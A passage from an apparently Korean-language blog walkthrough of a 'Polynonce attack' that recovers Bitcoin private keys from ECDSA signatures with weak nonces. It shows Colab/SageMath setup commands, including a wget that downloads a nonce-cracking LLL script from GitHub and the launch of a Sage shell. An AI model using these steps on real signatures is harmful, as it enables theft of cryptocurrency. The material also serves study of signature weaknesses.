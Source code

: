 
<pre class="wp-block-code"><code>!mv '/content/attacksafe' '/content/SageMath/attacksafe'
!mv '/content/SignatureRSZ.csv' '/content/SageMath/SignatureRSZ.csv'</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-70-1024x698.png" alt="POLYNONCE ATTACK은 BITCOIN 서명을 임의의 높은 128비트의 다항식으로 사용하여 개인 키를 얻습니다." class="wp-image-2753"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>ls</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-156-1024x344.png" alt="POLYNONCE ATTACK은 BITCOIN 서명을 임의의 높은 128비트의 다항식으로 사용하여 개인 키를 얻습니다." class="wp-image-3024"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p>유틸리티를 통해 Dario Clavijo에서&nbsp;&nbsp;<strong><a href="https://github.com/demining/CryptoDeepTools/blob/main/20PolynonceAttack/crack_weak_ECDSA_nonces_with_LLL.py" target="_blank" rel="noreferrer noopener">crack_weak_ECDSA_nonces_with_LLL.py</a></strong>&nbsp;스크립트를 다운로드합니다.<code>wget</code></p>
</blockquote>



<pre class="wp-block-code"><code>!wget https://raw.githubusercontent.com/demining/CryptoDeepTools/main/20PolynonceAttack/crack_weak_ECDSA_nonces_with_LLL.py</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-72-1024x424.png" alt="POLYNONCE ATTACK은 BITCOIN 서명을 임의의 높은 128비트의 다항식으로 사용하여 개인 키를 얻습니다." class="wp-image-2756"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><em></em><em>&nbsp;이제 다음 명령을&nbsp;</em><em>실행해 보겠습니다&nbsp; .</em><code>SageMath</code><em></em></p>
</blockquote>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>!./sage -sh</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-74-1024x505.png" alt="POLYNONCE ATTACK은 BITCOIN 서명을 임의의 높은 128비트의 다항식으로 사용하여 개인 키를 얻습니다." class="wp-image-2760"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
